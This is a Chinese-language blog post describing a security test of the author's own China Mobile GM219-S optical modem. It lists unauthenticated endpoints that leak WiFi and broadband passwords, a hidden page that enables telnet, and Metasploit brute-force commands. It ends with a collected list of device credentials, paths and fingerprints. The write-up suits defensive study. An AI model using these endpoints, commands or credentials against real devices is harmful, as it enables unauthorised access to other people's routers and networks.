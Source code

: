 ```yaml
---
layout: post
author: Vulkey_Chen
title: "记一次移动光猫（GM219-S）安全测试"
date: 2019-03-12
music-id: 1348044876
permalink: /archives/2019-03-12/1
description: "记一次移动光猫（GM219-S）安全测试"
---
```


# 前言

过个年，WiFi密码忘记了...光猫管理密码也忘记了（这个光猫也不支持物理按钮重置设置），但是手机还连着WiFi，正规操作找回不了密码，那就用咱们测试的思维来试试PWN掉这个路由器。

# 过程

## 未授权获取WiFi连接密码

还好之前没闲着，发现管理的几个未授权访问的接口如下:

获取宽带账号密码: `/GET_USER_WAN_PPP_INFO.json`

获取 WLAN 连接信息: `/GET_WLAN_LINK_INFO.json`

获取 DHCP 信息: `/GET_NET_DHCP_INFO.json`

手机访问 `http://192.168.1.1/GET_WLAN_LINK_INFO.json` ，获取密码：xxx，电脑连接登录

## 信息收集

### 端口收集结果

```shell
Scanning promote.cache-dns.local (192.168.1.1) [1080 ports]
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 8080/tcp on 192.168.1.1
```

### 目录扫描结果

获得的一些目录：

```shell
/login.html
/login.asp
/index.asp
/telnet.asp
/upgrade.asp
...
```

## 突破口

在目录扫描的时候，发现`/telnet.asp` -> 跳转到 `/cgi-bin/telnet.asp` 如下图所示界面：

![open_telnet](/images/cmcc-pentest/open_telnet.png)

这个功能可以开启光猫的`telnet`服务，先开启，然后再使用Nmap扫描下端口：

```shell
Scanning promote.cache-dns.local (192.168.1.1) [1080 ports]
Discovered open port 8080/tcp on 192.168.1.1
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 8023/tcp on 192.168.1.1
```

发现多了个8023端口，其对应的服务果然是telnet：

```shell
8023/tcp open  telnet
| fingerprint-strings:
|   GenericLines:
|     Star-Net Broadband Router
|     Login:
|     Password:
|   GetRequest:
|     Star-Net Broadband Router
|     Login: GET / HTTP/1.0
|     Password:
|   Help:
|     HELP
|     Star-Net Broadband Router
|     Login: Password:
|   NCP:
|     Star-Net Broadband Router
|     Login: DmdT^@^@^@
|     ^@^@^@^A^@^@^@^@^@
|   NULL:
|     Star-Net Broadband Router
|     Login:
|   RPCCheck:
|     Star-Net Broadband Router
|     Login:
|     ^@^@(r
|   SIPOptions:
|     Star-Net Broadband Router
|     Login: OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|     Password:
|   tn3270:
|     ^@IBM-3279-4-E
|     ^YStar-Net Broadband Router
|_    Login:
```

telnet开启，爆破一波走起。（Caimima生成个密码口令）

![caimima](/images/cmcc-pentest/caimima.png)

试了nmap貌似没啥用，开个msfconsole来爆破：

```shell
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.1.1 #设置模板
set RPORT 8023 #设置端口
set USER_FILE /root/user.txt #设置用户字典
set PASS_FILE /root/pass.txt #设置密码字典
exploit 192.168.1.1 #启动
```

幸运的是爆破出来了，是组合弱口令：

![telnet_brute](/images/cmcc-pentest/telnet_brute.png)

## 获取密码

运行`telnet 192.168.1.1 8023`输入账号密码进去，执行`sh`发现可以直接进入shell：

![telnet_shell](/images/cmcc-pentest/telnet_shell.png)

接下来就是找密码到处瞎翻（没有PWN路由器的经验，很难受），执行 `ls -a -l` 发现有软链接，很多指向了`/tmp`目录：

![ls](/images/cmcc-pentest/ls.png)

于是进入`/tmp`目录，到处翻腾：

![tmp](/images/cmcc-pentest/tmp.png)

利用这几个关键词看看是否有文件中包含了：`admin`、`CMCC`(中国移动)、`password`、`user`

e.g. `grep 'admin' ./*`，等了老半天了，发现`/tmp/ctromfile.cfg`文件内有点东西：

![admin](/images/cmcc-pentest/admin.png)

复制密码登录，怼进去：

![cmccadmin](/images/cmcc-pentest/cmccadmin.png)

## 信息整合

做完测试并针对测试过程的信息进行整合，最后形成字典以便后面再次遇到～

- 通过读配置文件获取的一系列用户名、密码：`9vvrr、admin、aDm8H%MdA、CMCCAdmin、telnetuser、user`

- 文件、目录路径：
    - `/GET_USER_WAN_PPP_INFO.json`
    - `/GET_WLAN_LINK_INFO.json`
    - `/GET_NET_DHCP_INFO.json`
    - `/telnet.asp`
    - `/index.asp`
    - `/user.html`
    - `/upgrade.asp`
    - `/cgi-bin/`
    - `/content.asp`

- 指纹特征：
    - 标题：`HGU LOGIN`
    - 图片：`/webstyle/images/login-mobile-qrcode-anhui.png -> 23cb4f5e63e0cd47f8788a6ca3558eab`
    - JS：`/webstyle/js/br_login_nc.js`

# 结尾

最后我只是默默的把user用户密码改了一下～
